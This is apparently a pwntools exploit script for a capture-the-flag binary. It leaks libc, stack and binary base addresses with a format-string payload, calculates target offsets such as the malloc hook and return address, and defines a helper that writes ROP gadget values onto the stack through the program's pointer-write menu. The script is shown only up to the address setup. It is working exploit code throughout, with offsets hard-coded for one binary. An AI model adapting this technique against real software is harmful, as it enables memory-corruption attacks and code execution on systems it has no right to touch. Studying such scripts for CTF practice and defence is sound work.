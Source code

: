 ```py
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def add_rop(qword, rop_offset):
    io.recvuntil('exit\n')
    io.send('1')

    io.recvuntil('Size: ')
    io.send('8')

    io.recvuntil("Data: ")
    io.send('G')

    io.recvuntil('exit\n')
    io.send('2')

    io.recvuntil('Index: ')
    io.send('1')

    io.recvuntil("Pointer: ")
    io.send(str(returnAddr + (rop_offset * 0x8)))

    io.recvuntil("Content: ")
    io.send(p64(qword))

    io.success("wrote " + hex(qword) + " to " + hex(returnAddr + (rop_offset * 0x8)))

io = start()

pause()

formatstr = "%25$p%16$p%17$p "
chunkSize = 0x400

printfPayload = flat({
    0: formatstr,
    # 16: p64(chunkSize),
    })


io.recvuntil("Format: ")
print(printfPayload)
io.sendline(printfPayload)

s = io.recvuntil("\n").decode()[:-1]
s = s.split('0x')
s[3] = s[3].split(' ')[0]

libcBase = int(s[1], 16) - 0x21b97
stackLeak = int(s[2], 16)
binBase = int(s[3], 16) - 0x11b3
ptrArr = binBase + 0x202080 + 0x8
symKill = binBase + 0x000010b4
mallocHook = libcBase + 0x3ed8e8

io.success("libc base addr: " + hex(libcBase))
io.success("rbp stack leak: " + hex(stackLeak))
io.success("bin base addr: " + hex(binBase))

returnAddr = stackLeak + 0x8
```